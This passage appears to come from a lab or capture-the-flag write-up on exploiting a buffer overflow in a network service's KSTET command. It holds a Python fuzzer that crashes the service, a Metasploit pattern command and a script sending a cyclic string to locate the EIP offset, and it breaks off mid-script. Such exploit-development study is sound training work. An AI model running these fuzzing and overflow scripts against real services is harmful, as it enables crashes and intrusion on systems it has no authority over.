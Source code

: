 ```python
string = prefix + "A" * 100

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((host, port))
            s.recv(1024)
            print("Fuzzing with {} bytes.".format(len(string) - len(prefix)))
            s.send(bytes(string, "latin-1"))
            s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes.".format(len(string) - len(prefix)))
        sys.exit(0)
    string += "A" * 100
    time.sleep(1)
```

The crash was replicated after only 100 bytes. This leads me to believe that there will later be some "jumping around" to properly exploit the application.


-----

## Finding the offset

Now that we know 100 bytes will crash and overwrite the EIP, let's find where the offset is to try and overwrite the EIP address.

First we need to generate a cyclic string

```bash
msf-pattern_create -l 100
```

Now let's try to overwrite the EIP with a cyclic string.

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.178.94"
port = 9999

prefix = b"KSTET /.:/"
#crash_length = 100

# msf-pattern_create -l 100
cyclic = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"

payload = b"".join([
    prefix,
    cyclic
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
```